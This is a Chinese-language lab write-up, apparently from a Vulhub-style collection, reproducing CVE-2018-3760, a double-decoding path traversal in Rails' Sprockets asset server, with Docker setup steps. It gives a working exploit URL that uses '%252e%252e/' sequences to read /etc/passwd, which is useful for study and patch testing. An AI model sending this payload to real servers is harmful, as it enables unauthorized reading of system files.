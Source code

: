 # Ruby On Rails 路径穿越漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

Vulhub启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker-compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

![image-20220228191402366](./images/202202281914644.png)

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中。

![image-20220228191452991](./images/202202281914413.png)

我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220228191510918](./images/202202281915174.png)


